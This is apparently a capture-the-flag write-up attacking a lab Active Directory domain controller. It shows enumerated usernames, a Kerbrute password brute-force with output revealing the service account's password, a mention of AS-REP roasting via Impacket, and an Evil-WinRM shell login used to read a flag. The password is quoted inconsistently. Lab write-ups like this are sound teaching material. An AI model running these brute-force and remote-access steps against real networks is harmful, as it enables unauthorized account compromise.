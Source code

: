 Reviewing our Enum4Linux output, we can get a number of usernames revealed to us, as well as the password policy.
The users we retrieved are:
```
cn: sonny
userPrincipalName: sonny@MEGACORP.LOCAL
cn: svc-netapp
userPrincipalName: svc-netapp@MEGACORP.LOCAL
cn: Magnus Bilde
userPrincipalName: magnus@MEGACORP.LOCAL
cn: Matt Hale
userPrincipalName: matt@MEGACORP.LOCAL
cn: Lara Stein
userPrincipalName: lara@MEGACORP.LOCAL
cn: flag{Ld4P_an0nyMous_b1nds}
userPrincipalName: flag{Ld4P_an0nyMous_b1nds}@MEGACORP.LOCAL
```
With the user accounts, we can attempt to do more enumeration, however, not much additional information is turned up.

We have to strange accounts that we can look at here, svc-netapp and the flag user account. Using a tool called “Kerbrute” we can brute force the users passwords
```
#./kerbrute_linux_amd64 bruteuser -d megacorp.local /usr/share/seclists/Passwords/darkweb2017-top10000.txt svc-netapp --dc 10.10.10.27
 
  
    __             __               __      
   / /_____  _____/ /_  _______  __/ /____  
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \ 
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/ 
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                         
 
Version: v1.0.2 (fd5f345) - 11/16/19 - Ronnie Flathers @ropnop 
 
2019/11/16 15:59:15 >  Using KDC(s): 
2019/11/16 15:59:15 >   10.10.10.27:88 
 
2019/11/16 15:59:15 >  [+] VALID LOGIN:  svc-netapp@megacorp.local:1234567890 
2019/11/16 15:59:16 >  Done! Tested 31 logins (1 successes) in 0.613 seconds
```
Imediately the password of the user account is revealed to us as "1234567890:
However, it was possible using GetNPUsers within the Impacket suite to retrieve a Ticket for the svc-netapp user account.

Now, we can explore the system with either smbclient, or we can invoke a shell using Evil-WinRM
To install Evil-WinRM you can do “gem install evil-winrm”
```
$evil-winrm -i 10.10.10.27 -u svc-netapp
password: 01234567890
*Evil-WinRM* PS C:\Users\svc-netapp\Documents> cd ..\Desktop\
*Evil-WinRM* PS C:\Users\svc-netapp\Desktop> more flag.txt
```
flag{DoNt_D1sable_k3rBer0s_pr3-auth3ntic4tion}
